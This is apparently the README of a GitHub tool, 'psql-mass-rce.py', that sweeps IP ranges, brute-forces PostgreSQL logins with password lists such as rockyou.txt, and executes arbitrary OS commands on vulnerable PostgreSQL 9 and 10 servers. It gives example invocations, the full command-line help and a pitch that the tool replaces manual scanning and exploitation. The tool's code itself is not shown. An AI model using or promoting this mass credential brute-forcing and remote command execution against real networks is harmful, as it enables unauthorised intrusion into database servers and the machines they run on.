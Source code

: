Conviniently invoke RCE on PostgreSQL servers in network
=======

How does it work?
--------
Few examples to give you an idea (any number of any targets is supported):   
`./psql-mass-rce.py 192.168.0.100-150 ./test.gnmap --port 5433`   
`./psql-mass-rce.py 192.168.0.100/31 10.10.10.10 --passfile rockyou.txt`    


Scripts does the following:
1. Checks if port is open
2. Bruteforces credentials (using built-in dictionary or user files)
3. Determines PostgreSQL version and OS
4. Executes RCE if database user has enough rights

Live hosts with good credentials are saved to session file. After reconnaissance you may want to run RCE on those:   
`./psql-mass-rce.py --saved --command 'whoami'`   


Installation:
--------
`pip3 install -r requirements.txt`


Which PostgreSQL versions can give me RCE?
--------
PostgreSQL verions 9 and 10 (version 8 is in development).


Any zero-days inside?
--------
Not yet. [Technique](http://dsrbr.blogspot.ru/2015/04/os-command-execution-in-postgresql-93.html) was published almost 3 years ago.


Will it save my time?
--------
Definately yes.

| Before 	| After 	|
|--------	|-------	|
| 1. run nmap for port scanning<br/>2. run patator/hydra to bruteforce credentials<br/>3. run psql binary to connect and check version<br/>4. copy-paste payloads, or launch MSF `postgres_payload` manually at each host.     | ./psql-mass-rce.py 10.1.1.0/24 |


Full help:
--------
```
psql-mass-rce v0.1

Usage: psql-mass-rce.py targets [--userfile USERFILE] [--passfile PASSFILE]
               [--command COMMAND] [--port PORT] [--saved]

Necessary arguments:
  targets              Accepts any number of these: IP, network, or .gnmap file

Optional arguments:
  -h, --help           show this help message and exit
  --userfile USERFILE  File with a list of users
  --passfile PASSFILE  File with a list of passwords
  --command COMMAND    Command to execute on a target machine
  --port PORT          Port to connect
  --saved              Work on targets from saved session file
```